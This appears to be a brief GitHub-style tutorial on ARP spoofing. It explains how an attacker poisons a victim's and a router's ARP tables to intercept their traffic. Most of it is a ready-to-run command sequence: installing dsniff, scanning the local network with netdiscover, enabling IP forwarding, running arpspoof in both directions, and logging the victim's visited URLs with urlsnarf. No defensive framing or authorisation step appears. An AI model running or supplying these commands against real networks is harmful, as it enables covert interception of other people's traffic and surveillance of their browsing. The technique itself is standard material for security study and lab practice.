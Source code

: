 # ARP Spoofing

The first phase of ARP spoofing is to send the victim fake ARP responses by advertising the attacker's MAC address as the routers.

The victim updates the ARP table with the false information so the ARP table now reflects that the attacker's MAC address now maps to the routers IP address.

This allows the victims internet traffic to be sent to the attacker's machine rather than the router.

The attacker will then forward the packets to the router after inspection.

If the attacker also wants to intercept internet traffic intended for the victim, the attacker must also trick the router.

The attacker must create a fake ARP packet indicating that the victim’s IP address maps to the attacker’s MAC address.

This allows the at tacker to intercept and inspect incoming internet traffic and then forwards that traffic to the victim.



### Install dsniff

* `sudo -i`

* `apt-get update`

* `apt-get install dsniff`

### Discover endpoints on local network

* `sudo netdiscover`

### Enable port forwarding on attack box

* `sudo sysctl net.ipv4.ip_forward=1`

### Generate fake ARP replies to the victim. This disguises the attack box as the router.

* `sudo arpspoof -i eth0 -t <VICTIM_IP> <ROUTER_IP>`

### Generate fake ARP replies to trick the router into believing that you are the victim. This allows you to intercept incoming internet traffic.

* `sudo arpspoof -i eth0 -t <ROUTER_IP> <VICTIM_IP>`

### Extract websites that the victim visits

* `urlsnarf -i eth0`
